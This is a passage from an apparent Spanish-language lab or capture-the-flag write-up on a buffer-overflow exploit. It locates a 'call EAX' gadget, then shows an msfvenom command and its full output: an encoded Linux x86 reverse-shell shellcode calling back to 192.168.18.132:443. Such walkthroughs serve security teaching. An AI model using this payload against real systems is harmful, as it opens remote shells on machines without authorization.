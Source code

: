 ![Write-up Image](images/Screenshot_42.png)

Y tenemos justo la llamada a EAX que queremos en esta sección de memoria `0x08048563`.

Teniendo la llamada al EAX, vamos a generar nuestro shellcode con `msfvenom` y a pegarlo en nuestro exploit.
```console
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.18.132 LPORT=443 -b '\x00\x0a' --format py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 479 bytes
buf =  b""
buf += b"\xdb\xd8\xbf\xa3\x68\xf1\xca\xd9\x74\x24\xf4\x5d"
buf += b"\x29\xc9\xb1\x12\x31\x7d\x17\x83\xc5\x04\x03\xde"
buf += b"\x7b\x13\x3f\x11\xa7\x24\x23\x02\x14\x98\xce\xa6"
buf += b"\x13\xff\xbf\xc0\xee\x80\x53\x55\x41\xbf\x9e\xe5"
buf += b"\xe8\xb9\xd9\x8d\x2a\x91\x08\xc9\xc3\xe0\x2c\xd0"
buf += b"\xa8\x6c\xcd\x62\xa8\x3e\x5f\xd1\x86\xbc\xd6\x34"
buf += b"\x25\x42\xba\xde\xd8\x6c\x48\x76\x4d\x5c\x81\xe4"
buf += b"\xe4\x2b\x3e\xba\xa5\xa2\x20\x8a\x41\x78\x22"
```
